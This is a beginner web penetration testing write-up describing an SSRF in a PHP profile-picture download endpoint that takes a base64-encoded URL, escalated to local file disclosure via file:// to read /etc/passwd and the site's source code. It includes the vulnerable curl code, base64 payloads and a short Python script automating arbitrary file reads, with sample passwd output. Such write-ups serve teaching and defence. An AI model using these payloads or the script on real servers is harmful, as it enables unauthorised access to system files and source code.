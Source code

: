 # Glimpse At Web Penetration Testing
A web penetration testing example, that I did me and @Edd13Mora in our free time, for beginners to have an idea about websec.

Our target is a PHP web application, which gives you great tools that you can use on XXX and XXX, such as the one that gives you the ability to download a full size profile picture for a specific profile which leads us to write this write-up.

Compiling SSRF and Local File Disclosure, we were able to read the entire source code and get more vulnerabilities like SQL Injection until we got to the admin panel and were able to get the encoded login information.

## **Server-Side Request Forgery (SSRF)**

When we enter our profile name, the app redirects us, to another page with basic profile information like username, number of followers and account bio, and also gives you a download link for a full size profile picture that looks like this:

```
https://XXXXXXXXXX/XXXXXX/[BASE64].jpg
```

With Base64 in the download URL, it actually looks weird, after we decode it we can see that it's actually an Instagram image link, so we assumed the app ignores `.jpg` and just decodes base64 and sends a request to it and returns its content to us.

As we can see here:

```php
if ( !isset( $_GET["url"] ) ){
	exit();
}
$url_encoded = str_replace(".jpg", "", $_GET["url"]);
```

It will check if the parameter `url` exists, in that case `.jpg` will be replaced with nothing after that:

```php
$url = base64_decode( $url_encoded );
```

It will decode it, send the request, and print the response as we can see here:

```php
$data_headers = array();

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url ); 
curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "GET");
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_HEADERFUNCTION, "header_callback");
curl_setopt($ch, CURLINFO_HEADER_OUT, 	 true);

$resp = curl_exec($ch);

curl_close ($ch);

foreach( $data_headers as $data_header){

	header( $data_header );
}

echo $resp;
```

To exploit this vulnerability, we can simply generate a malicious Base64 encoded string of our host URL in `beeceptor` so that we can check if the application is sending a request to any given URL without any checking, and it would be something like this:

```
https://XXXXXXXXXX/XXXXXX/aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=.jpg
```

Where `aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=` is our `beeceptor` URL base64 encoded.

After sending the request with our malicious payload we can see that we got a request in `beeceptor` and VOILA!! a SSRF.

## Local File Disclosure

The application does not perform any additional URL checks, which will allow us to read local files using the file URI schema, which looks like this:

```
file://[PATH]
```

We tried to read the `/etc/passwd/` file to get to know the target more, and were able to do that easily by creating a malicious URL and sending a request to it.

```
https://XXXXXXXXXX/XXXXXX/ZmlsZTovLy9ldGMvcGFzc3dkCg==.jpg // ZmlsZTovLy9ldGMvcGFzc3dkCg== -> file:///etc/passwd
```

The output will be messy in the browser, so we made an exploitation script that automate the whole process for us, and the output will be formatted:

```python
#!/usr/bin/python3
import requests, sys, base64
print(requests.get(f"https://www.XXXXXXXXXX.com/XXXXXX/{base64.b64encode(('file:///'+sys.argv[1]).encode('utf-8')).decode('utf-8')}.jpg").text)
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
....
cpanelphppgadmin:x:996:992:phpPgAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphppgadmin:/usr/local/cpanel/bin/noshell
cpanelphpmyadmin:x:995:991:phpMyAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphpmyadmin:/usr/local/cpanel/bin/noshell
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
cpses:x:994:990::/var/cpanel/cpses:/sbin/nologin
rhtmuczev5qgvzjk:x:1002:1005::/home2/rhtmuczev5qgvzjk:/usr/local/cpanel/bin/noshell
```

Reading the `passwd` file, we were able to tell that the target is hosted with `WHM / CPANEL`, and if you're not familiar with it, you can go ahead and check: [https://cpanel.net/products/](https://cpanel.net/products/), now we know the website won't be in `/var/www/html`, to access the source code and be able to read it we need to know the exact path to the `cpanel` user home path `rhtmuczev5qgvzjk`, luckily we already have `/home2/rhtmuczev5qgvzjk` in `passwd` file so it would be something like `/home2/rhtmuczev5qgvzjk/public_html/`, you can check [https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/](https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/) for more information, to be sure we tried read the `index.php` file and as expected we did.

```php
<?php require_once("common/functions.php"); ?>
<!DOCTYPE html>
<html lang="en">
<head>
....
<?php include("common/widgets/footer.php"); ?>

<script type="text/javascript">
        ga('send', 'pageview', '/');
</script>

</body>
</html> 
```

So hoping to get to the server, we've fetched all the source code and we are now ready for a nice code review.

```
WITH THE PERMISSION OF THE WEBSITE OWNER, WE WERE NOT ABLE TO SHARE THIS PART.
```
